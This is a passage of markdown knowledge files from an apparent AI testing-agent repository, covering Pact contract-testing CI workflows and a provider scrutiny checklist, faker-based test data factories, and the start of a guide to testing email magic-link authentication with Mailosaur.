      process.exit(1);
  }
}

main();
```

**package.json scripts**:

```json
{
  "scripts": {
    "pact:tag": "ts-node scripts/pact-broker-housekeeping.ts tag-release",
    "pact:record": "ts-node scripts/pact-broker-housekeeping.ts record-deployment",
    "pact:can-deploy": "ts-node scripts/pact-broker-housekeeping.ts can-i-deploy",
    "pact:cleanup": "ts-node scripts/pact-broker-housekeeping.ts cleanup"
  }
}
```

**Deployment workflow integration**:

```yaml
# .github/workflows/deploy-production.yml
name: Deploy to Production
on:
  push:
    tags:
      - 'v*'

jobs:
  verify-contracts:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - name: Check pact compatibility
        run: npm run pact:can-deploy ${{ github.ref_name }} production
        env:
          PACT_BROKER_BASE_URL: ${{ secrets.PACT_BROKER_BASE_URL }}
          PACT_BROKER_TOKEN: ${{ secrets.PACT_BROKER_TOKEN }}

  deploy:
    needs: verify-contracts
    runs-on: ubuntu-latest
    steps:
      - name: Deploy to production
        run: ./scripts/deploy.sh production

      - name: Record deployment in Pact Broker
        run: npm run pact:record ${{ github.ref_name }} production
        env:
          PACT_BROKER_BASE_URL: ${{ secrets.PACT_BROKER_BASE_URL }}
          PACT_BROKER_TOKEN: ${{ secrets.PACT_BROKER_TOKEN }}
```

**Scheduled cleanup**:

```yaml
# .github/workflows/pact-housekeeping.yml
name: Pact Broker Housekeeping
on:
  schedule:
    - cron: '0 2 * * 0' # Weekly on Sunday at 2 AM

jobs:
  cleanup:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - name: Cleanup old pacts
        run: npm run pact:cleanup
        env:
          PACT_BROKER_BASE_URL: ${{ secrets.PACT_BROKER_BASE_URL }}
          PACT_BROKER_TOKEN: ${{ secrets.PACT_BROKER_TOKEN }}
```

**Key Points**:

- **Automated tagging**: Releases tagged with environment
- **Deployment tracking**: Broker knows which version is where
- **Safety gate**: can-i-deploy blocks incompatible deployments
- **Retention policy**: Keep recent, production, and branch-latest pacts
- **Webhook triggers**: Provider verification runs on consumer changes

---

## Provider Scrutiny Protocol

When generating consumer contract tests, the agent **MUST** analyze provider source code — or the provider's OpenAPI/Swagger spec — before writing any Pact interaction. Generating contracts from consumer-side assumptions alone leads to mismatches that only surface during provider verification — wrong response shapes, wrong status codes, wrong field names, wrong types, missing required fields, and wrong enum values.

**Source priority**: Provider source code is the most authoritative reference. When an OpenAPI/Swagger spec exists (`openapi.yaml`, `openapi.json`, `swagger.json`), use it as a complementary or alternative source — it documents the provider's contract explicitly and can be faster to parse than tracing through handler code. When both exist, cross-reference them; if they disagree, the source code wins.

### Provider Endpoint Comment

Every Pact interaction MUST include a provider endpoint comment immediately above the `.given()` call:

```typescript
// Provider endpoint: server/src/routes/userRouteHandlers.ts -> GET /api/v2/users/:userId
await provider.given('user with id 1 exists').uponReceiving('a request for user 1');
```

**Format**: `// Provider endpoint: <relative-path-to-handler> -> <METHOD> <route-pattern>`

If the provider source is not accessible, use: `// Provider endpoint: TODO — provider source not accessible, verify manually`

### Seven-Point Scrutiny Checklist

Before generating each Pact interaction, read the provider route handler and/or OpenAPI spec and verify:

| #   | Check                 | What to Read (source code / OpenAPI spec)                         | Common Mismatch                                               |
| --- | --------------------- | ----------------------------------------------------------------- | ------------------------------------------------------------- |
| 1   | **Response shape**    | Handler's `res.json()` calls / OpenAPI `responses.content.schema` | Nested object vs flat; array wrapper vs direct                |
| 2   | **Status codes**      | Handler's `res.status()` calls / OpenAPI `responses` keys         | 200 vs 201 for creation; 204 vs 200 for delete                |
| 3   | **Field names**       | Response type/DTO definitions / OpenAPI `schema.properties`       | `transaction_id` vs `transactionId`; `fraud_score` vs `score` |
| 4   | **Enum values**       | Validation schemas, constants / OpenAPI `schema.enum`             | `"active"` vs `"ACTIVE"`; `"pending"` vs `"in_progress"`      |
| 5   | **Required fields**   | Request validation (Joi, Zod) / OpenAPI `schema.required`         | Missing required header; optional field assumed required      |
| 6   | **Data types**        | TypeScript types, DB models / OpenAPI `schema.type` + `format`    | `string` ID vs `number` ID; ISO date vs Unix timestamp        |
| 7   | **Nested structures** | Response builder, serializer / OpenAPI `$ref` + `allOf`/`oneOf`   | `{ data: { items: [] } }` vs `{ items: [] }`                  |

### Scrutiny Evidence Block

Document what was found from provider source and/or OpenAPI spec as a block comment in the test file:

```typescript
/*
 * Provider Scrutiny Evidence:
 * - Handler: server/src/routes/userRouteHandlers.ts:45
 * - OpenAPI: server/openapi.yaml paths./api/v2/users/{userId}.get (if available)
 * - Response type: UserResponseDto (server/src/types/user.ts:12)
 * - Status: 200 (line 52), 404 (line 48)
 * - Fields: { id: number, name: string, email: string, role: "user" | "admin", createdAt: string }
 * - Required request headers: Authorization (Bearer token)
 * - Validation: Zod schema at server/src/validation/user.ts:8
 */
```

### Graceful Degradation

When provider source code is not accessible (different repo, no access, closed source):

1. **OpenAPI/Swagger spec available**: Use the spec as the source of truth for response shapes, status codes, and field names
2. **Pact Broker has existing contracts**: Use `pact_mcp` tools to fetch existing provider states and verified interactions as reference
3. **Neither available**: Generate contracts from consumer-side types but use the TODO form of the mandatory comment: `// Provider endpoint: TODO — provider source not accessible, verify manually` and add a `provider_scrutiny: "pending"` field to the output JSON
4. **Never silently guess**: If you cannot verify, document what you assumed and why

---

## Contract Testing Checklist

Before implementing contract testing, verify:

- [ ] **Pact Broker setup**: Hosted (Pactflow) or self-hosted broker configured
- [ ] **Consumer tests**: Generate pacts in CI, publish to broker on merge
- [ ] **Provider verification**: Runs on PR, verifies all consumer pacts
- [ ] **State handlers**: Provider implements all given() states
- [ ] **can-i-deploy**: Blocks deployment if contracts incompatible
- [ ] **Webhooks configured**: Consumer changes trigger provider verification
- [ ] **Retention policy**: Old pacts archived (keep 30 days, all production tags)
- [ ] **Resilience tested**: Timeouts, retries, error codes in contracts
- [ ] **Provider endpoint comments**: Every Pact interaction has `// Provider endpoint:` comment
- [ ] **Provider scrutiny completed**: Seven-point checklist verified for each interaction
- [ ] **Scrutiny evidence documented**: Block comment with handler, types, status codes, and fields

## Integration Points

- Used in workflows: `*automate` (integration test generation), `*ci` (contract CI setup)
- Related fragments: `test-levels-framework.md`, `ci-burn-in.md`, `pact-consumer-framework-setup.md`
- Tools: Pact.js, Pact Broker (Pactflow or self-hosted), Pact CLI

---

## Pact.js Utils Accelerator

When `tea_use_pactjs_utils` is enabled, the following utilities replace manual boilerplate:

| Manual Pattern (raw Pact.js)                             | Pact.js Utils Equivalent                                                          | Benefit                                                               |
| -------------------------------------------------------- | --------------------------------------------------------------------------------- | --------------------------------------------------------------------- |
| Manual `JsonMap` casting for `.given()` params           | `createProviderState({ name, params })`                                           | Type-safe, auto-conversion of Date/null/nested objects                |
| Repeated builder callbacks for query/header/body         | `setJsonContent({ query, headers, body })`                                        | Reusable callback for `.withRequest(...)` and `.willRespondWith(...)` |
| Inline body lambda `(builder) => builder.jsonBody(body)` | `setJsonBody(body)`                                                               | Body-only shorthand for cleaner response builders                     |
| 30+ lines of `VerifierOptions` assembly                  | `buildVerifierOptions({ provider, port, includeMainAndDeployed, stateHandlers })` | One-call setup, env-aware, flow auto-detection                        |
| Manual broker URL + selector logic from env vars         | `handlePactBrokerUrlAndSelectors({ ..., options })`                               | Mutates options in-place with broker URL and selectors                |
| DIY Express middleware for auth injection                | `createRequestFilter({ tokenGenerator })`                                         | Bearer prefix contract prevents double-prefix bugs                    |
| Manual CI branch/tag extraction                          | `getProviderVersionTags()`                                                        | CI-aware (GitHub Actions, GitLab CI, etc.)                            |
| Message verifier config assembly                         | `buildMessageVerifierOptions({ provider, messageProviders })`                     | Same one-call pattern for Kafka/async contracts                       |
| Inline no-op filter `(req, res, next) => next()`         | `noOpRequestFilter`                                                               | Pre-built pass-through for no-auth providers                          |

See the `pactjs-utils-*.md` knowledge fragments for complete examples and anti-patterns.

_Source: Pact consumer/provider sample repos, Murat contract testing blog, Pact official documentation, @seontechnologies/pactjs-utils library_
```

## File: `src/agents/bmad-tea/resources/knowledge/data-factories.md`
```markdown
# Data Factories and API-First Setup

## Principle

Prefer factory functions that accept overrides and return complete objects (`createUser(overrides)`). Seed test state through APIs, tasks, or direct DB helpers before visiting the UI—never via slow UI interactions. UI is for validation only, not setup.

## Rationale

Static fixtures (JSON files, hardcoded objects) create brittle tests that:

- Fail when schemas evolve (missing new required fields)
- Cause collisions in parallel execution (same user IDs)
- Hide test intent (what matters for _this_ test?)

Dynamic factories with overrides provide:

- **Parallel safety**: UUIDs and timestamps prevent collisions
- **Schema evolution**: Defaults adapt to schema changes automatically
- **Explicit intent**: Overrides show what matters for each test
- **Speed**: API setup is 10-50x faster than UI

## Pattern Examples

### Example 1: Factory Function with Overrides

**Context**: When creating test data, build factory functions with sensible defaults and explicit overrides. Use `faker` for dynamic values that prevent collisions.

**Implementation**:

```typescript
// test-utils/factories/user-factory.ts
import { faker } from '@faker-js/faker';

type User = {
  id: string;
  email: string;
  name: string;
  role: 'user' | 'admin' | 'moderator';
  createdAt: Date;
  isActive: boolean;
};

export const createUser = (overrides: Partial<User> = {}): User => ({
  id: faker.string.uuid(),
  email: faker.internet.email(),
  name: faker.person.fullName(),
  role: 'user',
  createdAt: new Date(),
  isActive: true,
  ...overrides,
});

// test-utils/factories/product-factory.ts
type Product = {
  id: string;
  name: string;
  price: number;
  stock: number;
  category: string;
};

export const createProduct = (overrides: Partial<Product> = {}): Product => ({
  id: faker.string.uuid(),
  name: faker.commerce.productName(),
  price: parseFloat(faker.commerce.price()),
  stock: faker.number.int({ min: 0, max: 100 }),
  category: faker.commerce.department(),
  ...overrides,
});

// Usage in tests:
test('admin can delete users', async ({ page, apiRequest }) => {
  // Default user
  const user = createUser();

  // Admin user (explicit override shows intent)
  const admin = createUser({ role: 'admin' });

  // Seed via API (fast!)
  await apiRequest({ method: 'POST', url: '/api/users', data: user });
  await apiRequest({ method: 'POST', url: '/api/users', data: admin });

  // Now test UI behavior
  await page.goto('/admin/users');
  await page.click(`[data-testid="delete-user-${user.id}"]`);
  await expect(page.getByText(`User ${user.name} deleted`)).toBeVisible();
});
```

**Key Points**:

- `Partial<User>` allows overriding any field without breaking type safety
- Faker generates unique values—no collisions in parallel tests
- Override shows test intent: `createUser({ role: 'admin' })` is explicit
- Factory lives in `test-utils/factories/` for easy reuse

### Example 2: Nested Factory Pattern

**Context**: When testing relationships (orders with users and products), nest factories to create complete object graphs. Control relationship data explicitly.

**Implementation**:

```typescript
// test-utils/factories/order-factory.ts
import { createUser } from './user-factory';
import { createProduct } from './product-factory';

type OrderItem = {
  product: Product;
  quantity: number;
  price: number;
};

type Order = {
  id: string;
  user: User;
  items: OrderItem[];
  total: number;
  status: 'pending' | 'paid' | 'shipped' | 'delivered';
  createdAt: Date;
};

export const createOrderItem = (overrides: Partial<OrderItem> = {}): OrderItem => {
  const product = overrides.product || createProduct();
  const quantity = overrides.quantity || faker.number.int({ min: 1, max: 5 });

  return {
    product,
    quantity,
    price: product.price * quantity,
    ...overrides,
  };
};

export const createOrder = (overrides: Partial<Order> = {}): Order => {
  const items = overrides.items || [createOrderItem(), createOrderItem()];
  const total = items.reduce((sum, item) => sum + item.price, 0);

  return {
    id: faker.string.uuid(),
    user: overrides.user || createUser(),
    items,
    total,
    status: 'pending',
    createdAt: new Date(),
    ...overrides,
  };
};

// Usage in tests:
test('user can view order details', async ({ page, apiRequest }) => {
  const user = createUser({ email: 'test@example.com' });
  const product1 = createProduct({ name: 'Widget A', price: 10.0 });
  const product2 = createProduct({ name: 'Widget B', price: 15.0 });

  // Explicit relationships
  const order = createOrder({
    user,
    items: [
      createOrderItem({ product: product1, quantity: 2 }), // $20
      createOrderItem({ product: product2, quantity: 1 }), // $15
    ],
  });

  // Seed via API
  await apiRequest({ method: 'POST', url: '/api/users', data: user });
  await apiRequest({ method: 'POST', url: '/api/products', data: product1 });
  await apiRequest({ method: 'POST', url: '/api/products', data: product2 });
  await apiRequest({ method: 'POST', url: '/api/orders', data: order });

  // Test UI
  await page.goto(`/orders/${order.id}`);
  await expect(page.getByText('Widget A x 2')).toBeVisible();
  await expect(page.getByText('Widget B x 1')).toBeVisible();
  await expect(page.getByText('Total: $35.00')).toBeVisible();
});
```

**Key Points**:

- Nested factories handle relationships (order → user, order → products)
- Overrides cascade: provide custom user/products or use defaults
- Calculated fields (total) derived automatically from nested data
- Explicit relationships make test data clear and maintainable

### Example 3: Factory with API Seeding

**Context**: When tests need data setup, always use API calls or database tasks—never UI navigation. Wrap factory usage with seeding utilities for clean test setup.

**Implementation**:

```typescript
// playwright/support/helpers/seed-helpers.ts
import { APIRequestContext } from '@playwright/test';
import { User, createUser } from '../../test-utils/factories/user-factory';
import { Product, createProduct } from '../../test-utils/factories/product-factory';

export async function seedUser(request: APIRequestContext, overrides: Partial<User> = {}): Promise<User> {
  const user = createUser(overrides);

  const response = await request.post('/api/users', {
    data: user,
  });

  if (!response.ok()) {
    throw new Error(`Failed to seed user: ${response.status()}`);
  }

  return user;
}

export async function seedProduct(request: APIRequestContext, overrides: Partial<Product> = {}): Promise<Product> {
  const product = createProduct(overrides);

  const response = await request.post('/api/products', {
    data: product,
  });

  if (!response.ok()) {
    throw new Error(`Failed to seed product: ${response.status()}`);
  }

  return product;
}

// Playwright globalSetup for shared data
// playwright/support/global-setup.ts
import { chromium, FullConfig } from '@playwright/test';
import { seedUser } from './helpers/seed-helpers';

async function globalSetup(config: FullConfig) {
  const browser = await chromium.launch();
  const page = await browser.newPage();
  const context = page.context();

  // Seed admin user for all tests
  const admin = await seedUser(context.request, {
    email: 'admin@example.com',
    role: 'admin',
  });

  // Save auth state for reuse
  await context.storageState({ path: 'playwright/.auth/admin.json' });

  await browser.close();
}

export default globalSetup;

// Cypress equivalent with cy.task
// cypress/support/tasks.ts
export const seedDatabase = async (entity: string, data: unknown) => {
  // Direct database insert or API call
  if (entity === 'users') {
    await db.users.create(data);
  }
  return null;
};

// Usage in Cypress tests:
beforeEach(() => {
  const user = createUser({ email: 'test@example.com' });
  cy.task('db:seed', { entity: 'users', data: user });
});
```

**Key Points**:

- API seeding is 10-50x faster than UI-based setup
- `globalSetup` seeds shared data once (e.g., admin user)
- Per-test seeding uses `seedUser()` helpers for isolation
- Cypress `cy.task` allows direct database access for speed

### Example 4: Anti-Pattern - Hardcoded Test Data

**Problem**:

```typescript
// ❌ BAD: Hardcoded test data
test('user can login', async ({ page }) => {
  await page.goto('/login');
  await page.fill('[data-testid="email"]', 'test@test.com'); // Hardcoded
  await page.fill('[data-testid="password"]', 'password123'); // Hardcoded
  await page.click('[data-testid="submit"]');

  // What if this user already exists? Test fails in parallel runs.
  // What if schema adds required fields? Test breaks.
});

// ❌ BAD: Static JSON fixtures
// fixtures/users.json
{
  "users": [
    { "id": 1, "email": "user1@test.com", "name": "User 1" },
    { "id": 2, "email": "user2@test.com", "name": "User 2" }
  ]
}

test('admin can delete user', async ({ page }) => {
  const users = require('../fixtures/users.json');
  // Brittle: IDs collide in parallel, schema drift breaks tests
});
```

**Why It Fails**:

- **Parallel collisions**: Hardcoded IDs (`id: 1`, `email: 'test@test.com'`) cause failures when tests run concurrently
- **Schema drift**: Adding required fields (`phoneNumber`, `address`) breaks all tests using fixtures
- **Hidden intent**: Does this test need `email: 'test@test.com'` specifically, or any email?
- **Slow setup**: UI-based data creation is 10-50x slower than API

**Better Approach**: Use factories

```typescript
// ✅ GOOD: Factory-based data
test('user can login', async ({ page, apiRequest }) => {
  const user = createUser({ email: 'unique@example.com', password: 'secure123' });

  // Seed via API (fast, parallel-safe)
  await apiRequest({ method: 'POST', url: '/api/users', data: user });

  // Test UI
  await page.goto('/login');
  await page.fill('[data-testid="email"]', user.email);
  await page.fill('[data-testid="password"]', user.password);
  await page.click('[data-testid="submit"]');

  await expect(page).toHaveURL('/dashboard');
});

// ✅ GOOD: Factories adapt to schema changes automatically
// When `phoneNumber` becomes required, update factory once:
export const createUser = (overrides: Partial<User> = {}): User => ({
  id: faker.string.uuid(),
  email: faker.internet.email(),
  name: faker.person.fullName(),
  phoneNumber: faker.phone.number(), // NEW field, all tests get it automatically
  role: 'user',
  ...overrides,
});
```

**Key Points**:

- Factories generate unique, parallel-safe data
- Schema evolution handled in one place (factory), not every test
- Test intent explicit via overrides
- API seeding is fast and reliable

### Example 5: Factory Composition

**Context**: When building specialized factories, compose simpler factories instead of duplicating logic. Layer overrides for specific test scenarios.

**Implementation**:

```typescript
// test-utils/factories/user-factory.ts (base)
export const createUser = (overrides: Partial<User> = {}): User => ({
  id: faker.string.uuid(),
  email: faker.internet.email(),
  name: faker.person.fullName(),
  role: 'user',
  createdAt: new Date(),
  isActive: true,
  ...overrides,
});

// Compose specialized factories
export const createAdminUser = (overrides: Partial<User> = {}): User => createUser({ role: 'admin', ...overrides });

export const createModeratorUser = (overrides: Partial<User> = {}): User => createUser({ role: 'moderator', ...overrides });

export const createInactiveUser = (overrides: Partial<User> = {}): User => createUser({ isActive: false, ...overrides });

// Account-level factories with feature flags
type Account = {
  id: string;
  owner: User;
  plan: 'free' | 'pro' | 'enterprise';
  features: string[];
  maxUsers: number;
};

export const createAccount = (overrides: Partial<Account> = {}): Account => ({
  id: faker.string.uuid(),
  owner: overrides.owner || createUser(),
  plan: 'free',
  features: [],
  maxUsers: 1,
  ...overrides,
});

export const createProAccount = (overrides: Partial<Account> = {}): Account =>
  createAccount({
    plan: 'pro',
    features: ['advanced-analytics', 'priority-support'],
    maxUsers: 10,
    ...overrides,
  });

export const createEnterpriseAccount = (overrides: Partial<Account> = {}): Account =>
  createAccount({
    plan: 'enterprise',
    features: ['advanced-analytics', 'priority-support', 'sso', 'audit-logs'],
    maxUsers: 100,
    ...overrides,
  });

// Usage in tests:
test('pro accounts can access analytics', async ({ page, apiRequest }) => {
  const admin = createAdminUser({ email: 'admin@company.com' });
  const account = createProAccount({ owner: admin });

  await apiRequest({ method: 'POST', url: '/api/users', data: admin });
  await apiRequest({ method: 'POST', url: '/api/accounts', data: account });

  await page.goto('/analytics');
  await expect(page.getByText('Advanced Analytics')).toBeVisible();
});

test('free accounts cannot access analytics', async ({ page, apiRequest }) => {
  const user = createUser({ email: 'user@company.com' });
  const account = createAccount({ owner: user }); // Defaults to free plan

  await apiRequest({ method: 'POST', url: '/api/users', data: user });
  await apiRequest({ method: 'POST', url: '/api/accounts', data: account });

  await page.goto('/analytics');
  await expect(page.getByText('Upgrade to Pro')).toBeVisible();
});
```

**Key Points**:

- Compose specialized factories from base factories (`createAdminUser` → `createUser`)
- Defaults cascade: `createProAccount` sets plan + features automatically
- Still allow overrides: `createProAccount({ maxUsers: 50 })` works
- Test intent clear: `createProAccount()` vs `createAccount({ plan: 'pro', features: [...] })`

## Integration Points

- **Used in workflows**: `*atdd` (test generation), `*automate` (test expansion), `*framework` (factory setup)
- **Related fragments**:
  - `fixture-architecture.md` - Pure functions and fixtures for factory integration
  - `network-first.md` - API-first setup patterns
  - `test-quality.md` - Parallel-safe, deterministic test design

## Cleanup Strategy

Ensure factories work with cleanup patterns:

```typescript
// Track created IDs for cleanup
const createdUsers: string[] = [];

afterEach(async ({ apiRequest }) => {
  // Clean up all users created during test
  for (const userId of createdUsers) {
    await apiRequest({ method: 'DELETE', url: `/api/users/${userId}` });
  }
  createdUsers.length = 0;
});

test('user registration flow', async ({ page, apiRequest }) => {
  const user = createUser();
  createdUsers.push(user.id);

  await apiRequest({ method: 'POST', url: '/api/users', data: user });
  // ... test logic
});
```

## Feature Flag Integration

When working with feature flags, layer them into factories:

```typescript
export const createUserWithFlags = (
  overrides: Partial<User> = {},
  flags: Record<string, boolean> = {},
): User & { flags: Record<string, boolean> } => ({
  ...createUser(overrides),
  flags: {
    'new-dashboard': false,
    'beta-features': false,
    ...flags,
  },
});

// Usage:
const user = createUserWithFlags(
  { email: 'test@example.com' },
  {
    'new-dashboard': true,
    'beta-features': true,
  },
);
```

_Source: Murat Testing Philosophy (lines 94-120), API-first testing patterns, faker.js documentation._
```

## File: `src/agents/bmad-tea/resources/knowledge/email-auth.md`
```markdown
# Email-Based Authentication Testing

## Principle

Email-based authentication (magic links, one-time codes, passwordless login) requires specialized testing with email capture services like Mailosaur or Ethereal. Extract magic links via HTML parsing or use built-in link extraction, preserve browser storage (local/session/cookies) when processing links, cache email payloads to avoid exhausting inbox quotas, and cover negative cases (expired links, reused links, multiple rapid requests). Log email IDs and links for troubleshooting, but scrub PII before committing artifacts.

## Rationale

Email authentication introduces unique challenges: asynchronous email delivery, quota limits (AWS Cognito: 50/day), cost per email, and complex state management (session preservation across link clicks). Without proper patterns, tests become slow (wait for email each time), expensive (quota exhaustion), and brittle (timing issues, missing state). Using email capture services + session caching + state preservation patterns makes email auth tests fast, reliable, and cost-effective.

## Pattern Examples

### Example 1: Magic Link Extraction with Mailosaur

**Context**: Passwordless login flow where user receives magic link via email, clicks it, and is authenticated.

**Implementation**:

```typescript
// tests/e2e/magic-link-auth.spec.ts
import { test, expect } from '@playwright/test';

/**
 * Magic Link Authentication Flow
 * 1. User enters email
 * 2. Backend sends magic link
 * 3. Test retrieves email via Mailosaur
 * 4. Extract and visit magic link
 * 5. Verify user is authenticated
 */

// Mailosaur configuration
const MAILOSAUR_API_KEY = process.env.MAILOSAUR_API_KEY!;
const MAILOSAUR_SERVER_ID = process.env.MAILOSAUR_SERVER_ID!;

/**
 * Extract href from HTML email body
 * DOMParser provides XML/HTML parsing in Node.js
 */
function extractMagicLink(htmlString: string): string | null {
  const { JSDOM } = require('jsdom');
  const dom = new JSDOM(htmlString);
  const link = dom.window.document.querySelector('#magic-link-button');
  return link ? (link as HTMLAnchorElement).href : null;
}

/**
 * Alternative: Use Mailosaur's built-in link extraction
 * Mailosaur automatically parses links - no regex needed!
 */
async function getMagicLinkFromEmail(email: string): Promise<string> {
  const MailosaurClient = require('mailosaur');
  const mailosaur = new MailosaurClient(MAILOSAUR_API_KEY);

  // Wait for email (timeout: 30 seconds)
  const message = await mailosaur.messages.get(
    MAILOSAUR_SERVER_ID,
    {
      sentTo: email,
    },
    {
      timeout: 30000, // 30 seconds
    },
  );

  // Mailosaur extracts links automatically - no parsing needed!
  const magicLink = message.html?.links?.[0]?.href;

  if (!magicLink) {
    throw new Error(`Magic link not found in email to ${email}`);
  }

  console.log(`📧 Email received. Magic link extracted: ${magicLink}`);
  return magicLink;
}

test.describe('Magic Link Authentication', () => {
  test('should authenticate user via magic link', async ({ page, context }) => {
    // Arrange: Generate unique test email
    const randomId = Math.floor(Math.random() * 1000000);
    const testEmail = `user-${randomId}@${MAILOSAUR_SERVER_ID}.mailosaur.net`;

    // Act: Request magic link
    await page.goto('/login');
    await page.getByTestId('email-input').fill(testEmail);
    await page.getByTestId('send-magic-link').click();

    // Assert: Success message
    await expect(page.getByTestId('check-email-message')).toBeVisible();
    await expect(page.getByTestId('check-email-message')).toContainText('Check your email');

    // Retrieve magic link from email
    const magicLink = await getMagicLinkFromEmail(testEmail);

    // Visit magic link
    await page.goto(magicLink);

    // Assert: User is authenticated
    await expect(page.getByTestId('user-menu')).toBeVisible();
    await expect(page.getByTestId('user-email')).toContainText(testEmail);

    // Verify session storage preserved
    const localStorage = await page.evaluate(() => JSON.stringify(window.localStorage));
    expect(localStorage).toContain('authToken');
  });

  test('should handle expired magic link', async ({ page }) => {
    // Use pre-expired link (older than 15 minutes)
    const expiredLink = 'http://localhost:3000/auth/verify?token=expired-token-123';

    await page.goto(expiredLink);

    // Assert: Error message displayed
    await expect(page.getByTestId('error-message')).toBeVisible();
    await expect(page.getByTestId('error-message')).toContainText('link has expired');

    // Assert: User NOT authenticated
    await expect(page.getByTestId('user-menu')).not.toBeVisible();
  });

  test('should prevent reusing magic link', async ({ page }) => {
    const randomId = Math.floor(Math.random() * 1000000);
    const testEmail = `user-${randomId}@${MAILOSAUR_SERVER_ID}.mailosaur.net`;

    // Request magic link
    await page.goto('/login');
    await page.getByTestId('email-input').fill(testEmail);
    await page.getByTestId('send-magic-link').click();

    const magicLink = await getMagicLinkFromEmail(testEmail);

    // Visit link first time (success)
    await page.goto(magicLink);
    await expect(page.getByTestId('user-menu')).toBeVisible();

    // Sign out
    await page.getByTestId('sign-out').click();

    // Try to reuse same link (should fail)
    await page.goto(magicLink);
    await expect(page.getByTestId('error-message')).toBeVisible();
    await expect(page.getByTestId('error-message')).toContainText('link has already been used');
  });
});
```

**Cypress equivalent with Mailosaur plugin**:

```javascript
// cypress/e2e/magic-link-auth.cy.ts
describe('Magic Link Authentication', () => {
  it('should authenticate user via magic link', () => {
    const serverId = Cypress.env('MAILOSAUR_SERVERID');
    const randomId = Cypress._.random(1e6);
    const testEmail = `user-${randomId}@${serverId}.mailosaur.net`;

    // Request magic link
    cy.visit('/login');
    cy.get('[data-cy="email-input"]').type(testEmail);
    cy.get('[data-cy="send-magic-link"]').click();
    cy.get('[data-cy="check-email-message"]').should('be.visible');

    // Retrieve and visit magic link
    cy.mailosaurGetMessage(serverId, { sentTo: testEmail })
      .its('html.links.0.href') // Mailosaur extracts links automatically!
      .should('exist')
      .then((magicLink) => {
        cy.log(`Magic link: ${magicLink}`);
        cy.visit(magicLink);
      });

    // Verify authenticated
    cy.get('[data-cy="user-menu"]').should('be.visible');
    cy.get('[data-cy="user-email"]').should('contain', testEmail);
  });
});
```

**Key Points**:

- **Mailosaur auto-extraction**: `html.links[0].href` or `html.codes[0].value`
- **Unique emails**: Random ID prevents collisions
- **Negative testing**: Expired and reused links tested
- **State verification**: localStorage/session checked
- **Fast email retrieval**: 30 second timeout typical

---

### Example 2: State Preservation Pattern with cy.session / Playwright storageState

**Context**: Cache authenticated session to avoid requesting magic link on every test.

**Implementation**:

```typescript
// playwright/fixtures/email-auth-fixture.ts
import { test as base } from '@playwright/test';
import { getMagicLinkFromEmail } from '../support/mailosaur-helpers';

type EmailAuthFixture = {
  authenticatedUser: { email: string; token: string };
};

export const test = base.extend<EmailAuthFixture>({
  authenticatedUser: async ({ page, context }, use) => {
    const randomId = Math.floor(Math.random() * 1000000);
    const testEmail = `user-${randomId}@${process.env.MAILOSAUR_SERVER_ID}.mailosaur.net`;

    // Check if we have cached auth state for this email
    const storageStatePath = `./test-results/auth-state-${testEmail}.json`;

    try {
      // Try to reuse existing session
      await context.storageState({ path: storageStatePath });
      await page.goto('/dashboard');

      // Validate session is still valid
      const isAuthenticated = await page.getByTestId('user-menu').isVisible({ timeout: 2000 });

      if (isAuthenticated) {
        console.log(`✅ Reusing cached session for ${testEmail}`);
        await use({ email: testEmail, token: 'cached' });
        return;
      }
    } catch (error) {
      console.log(`📧 No cached session, requesting magic link for ${testEmail}`);
    }

    // Request new magic link
    await page.goto('/login');
    await page.getByTestId('email-input').fill(testEmail);
    await page.getByTestId('send-magic-link').click();

    // Get magic link from email
    const magicLink = await getMagicLinkFromEmail(testEmail);

    // Visit link and authenticate
    await page.goto(magicLink);
    await expect(page.getByTestId('user-menu')).toBeVisible();

    // Extract auth token from localStorage
    const authToken = await page.evaluate(() => localStorage.getItem('authToken'));

    // Save session state for reuse
    await context.storageState({ path: storageStatePath });

    console.log(`💾 Cached session for ${testEmail}`);

    await use({ email: testEmail, token: authToken || '' });
  },
});
```

**Cypress equivalent with cy.session + data-session**:

```javascript
// cypress/support/commands/email-auth.js
import { dataSession } from 'cypress-data-session';

/**
 * Authenticate via magic link with session caching
 * - First run: Requests email, extracts link, authenticates
 * - Subsequent runs: Reuses cached session (no email)
 */
Cypress.Commands.add('authViaMagicLink', (email) => {
  return dataSession({
    name: `magic-link-${email}`,

    // First-time setup: Request and process magic link
    setup: () => {
      cy.visit('/login');
      cy.get('[data-cy="email-input"]').type(email);
      cy.get('[data-cy="send-magic-link"]').click();

      // Get magic link from Mailosaur
      cy.mailosaurGetMessage(Cypress.env('MAILOSAUR_SERVERID'), {
        sentTo: email,
      })
        .its('html.links.0.href')
        .should('exist')
        .then((magicLink) => {
          cy.visit(magicLink);
        });

      // Wait for authentication
      cy.get('[data-cy="user-menu"]', { timeout: 10000 }).should('be.visible');

      // Preserve authentication state
      return cy.getAllLocalStorage().then((storage) => {
        return { storage, email };
      });
    },

    // Validate cached session is still valid
    validate: (cached) => {
      return cy.wrap(Boolean(cached?.storage));
    },

    // Recreate session from cache (no email needed)
    recreate: (cached) => {
      // Restore localStorage
      cy.setLocalStorage(cached.storage);
      cy.visit('/dashboard');
      cy.get('[data-cy="user-menu"]', { timeout: 5000 }).should('be.visible');
    },

    shareAcrossSpecs: true, // Share session across all tests
  });
});
```

**Usage in tests**:

```javascript
// cypress/e2e/dashboard.cy.ts
describe('Dashboard', () => {
  const serverId = Cypress.env('MAILOSAUR_SERVERID');
  const testEmail = `test-user@${serverId}.mailosaur.net`;

  beforeEach(() => {
    // First test: Requests magic link
    // Subsequent tests: Reuses cached session (no email!)
    cy.authViaMagicLink(testEmail);
  });

  it('should display user dashboard', () => {
    cy.get('[data-cy="dashboard-content"]').should('be.visible');
  });

  it('should show user profile', () => {
    cy.get('[data-cy="user-email"]').should('contain', testEmail);
  });

  // Both tests share same session - only 1 email consumed!
});
```

**Key Points**:

- **Session caching**: First test requests email, rest reuse session
- **State preservation**: localStorage/cookies saved and restored
- **Validation**: Check cached session is still valid
- **Quota optimization**: Massive reduction in email consumption
- **Fast tests**: Cached auth takes seconds vs. minutes

---

### Example 3: Negative Flow Tests (Expired, Invalid, Reused Links)

**Context**: Comprehensive negative testing for email authentication edge cases.

**Implementation**:

```typescript
// tests/e2e/email-auth-negative.spec.ts
import { test, expect } from '@playwright/test';
import { getMagicLinkFromEmail } from '../support/mailosaur-helpers';

const MAILOSAUR_SERVER_ID = process.env.MAILOSAUR_SERVER_ID!;

test.describe('Email Auth Negative Flows', () => {
  test('should reject expired magic link', async ({ page }) => {
